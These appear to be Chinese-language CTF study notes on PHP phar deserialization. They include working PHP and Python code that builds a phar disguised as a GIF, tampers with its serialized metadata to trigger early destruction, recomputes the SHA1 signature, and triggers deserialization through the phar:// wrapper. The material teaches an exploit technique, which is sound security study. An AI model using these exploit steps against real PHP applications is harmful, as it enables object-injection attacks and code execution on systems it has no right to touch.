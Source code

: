 # 介绍
	- phar 类似于压缩包，但除了文件之外，phar 还包含一个被序列化的对象。
	  当我们用`phar://phar.gif/test.txt`访问 phar 文件`phar.gif`内的文件时，插入其中的对象会被反序列化，并会在之后被销毁（也就是会执行`__destruct()`）。
- # .phar 文件格式
	- [文档](https://www.php.net/manual/en/phar.fileformat.php)
	- 1. `phar`文件头的识别格式是`xxx` + `<?php __HALT_COMPILER(); ?>`，只有这样的格式才能被识别为`phar`文件
	  2. `phar`是压缩文件，那么压缩文件的信息就会存在第二段**manifest describing**，这一段是放序列化的`poc`
	  3. 压缩的文件的内容被存在第三段，也就是上面 payload 的中的`text.txt`
	  4. 数字签名为该`phar`的第四段
	- Phar文件支持gzip压缩等压缩格式，即使压缩成了`phar.phar.gz`之类的格式也能正常读写。
		- [参考](https://www.anquanke.com/post/id/240007#h2-5)
	- 如何修改数字签名
		- 这里的数字签名仅是md5,sha1等哈希算法对前面部分的哈希
		- 其中具体使用什么哈希算法可以参照[这里](https://www.php.net/manual/en/phar.fileformat.signature.php)对比结尾得知
		- 在修改了前面一部分之后可以这么重新签名
			- ```python
			  def sha1_hash(s):
			      sha1_obj = hashlib.sha1()
			      sha1_obj.update(s)
			      return sha1_obj.digest()
			  with open("test/phar.phar", "rb") as f:
			      content = f.read()
			      # content = content.replace(b"i:1;i:114514;", b"i:0;i:114514;")
			      print(content)
			      content = content[:-28] + sha1_hash(content[:-28]) + content[-8:]
			      print(content)
			      with open("modified.phar", "wb") as out:
			          out.write(content)
			  ```
- # Phar上的快速触发GC
	- 普通的快速触发GC：将对象放入一个array中，在后面加入一个数字，然后将`i:1`（数字的下标）改成`i:0`（对象的下标）即可
	- Phar上操作类似，只不过需要重新产生签名
		- ```php
		  $o = new getflag();
		  $o = [$o, 114514];
		  //打开phar文件
		  @unlink("phar.phar");
		  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
		  $phar->startBuffering();
		  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
		  
		  //放入对象
		  $phar->setMetadata($o);
		  
		  //添加压缩的文件（test为其中的内容）
		  $phar->addFromString("test.txt", "test114514");
		  $phar->stopBuffering();
		  
		  ```
		- ```python
		  def sha1_hash(s):
		      sha1_obj = hashlib.sha1()
		      sha1_obj.update(s)
		      return sha1_obj.digest()
		  # 打开上方PHP生成的phar文件
		  with open("test/phar.phar", "rb") as f:
		      content = f.read()
		      assert content[-8] == 2 # sha1
		      content = content.replace(b"i:1;i:114514;", b"i:0;i:114514;")
		      print(content)
		      content = content[:-28] + sha1_hash(content[:-28]) + content[-8:]
		      print(content)
		      with open("modified.phar", "wb") as out:
		          out.write(content)
		  ```
	-
- # 生成 Phar 文件
	- ```php
	  <?php
	  //反序列化payload构造
	  class TestObject {
	  }
	  $o = new TestObject();
	  $o->data='just a test';
	  //打开phar文件
	  @unlink("phar.phar");
	  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
	  $phar->startBuffering();
	  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
	  
	  //放入对象
	  $phar->setMetadata($o);
	  
	  //添加压缩的文件（test为其中的内容）
	  $phar->addFromString("test.txt", "test");
	  $phar->stopBuffering();
	  @system("gzip -f phar.phar");
	  echo 'use phar.phar.gz';
	  ?>
	  ```
- # 利用 Phar 文件
	- ```php
	  <?php
	  	class TestObject{
	          function __destruct(){
	              echo $this->data;
	          }
	  	}
	  
	  	include "phar://phar.phar/test.txt";
	  ?>
	  ```
	  
	  访问`phar://phar.phar`也可以利用
- # 其他
	- https://www.php.net/manual/en/phar.using.intro.php
	- phar 文件中可以塞 PHP 命令
-